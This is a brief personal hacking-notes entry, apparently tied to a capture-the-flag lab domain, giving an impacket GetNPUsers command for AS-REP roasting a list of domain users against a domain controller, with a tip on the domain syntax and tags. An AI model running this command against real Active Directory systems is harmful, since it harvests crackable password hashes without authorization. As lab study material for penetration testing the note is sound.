 # impacket ASREP roast with Get-NPUsers
note that the domain must end in a /
```bash
impacket-GetNPUsers -request -usersfile users -dc-ip $IP LAB.ENTERPRISE.THM/
```

` zet/20221003150598/README.md `

# Related

- [20221003150600](/zet/20221003150600/README.md) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:

    #command #hacking #impacket 
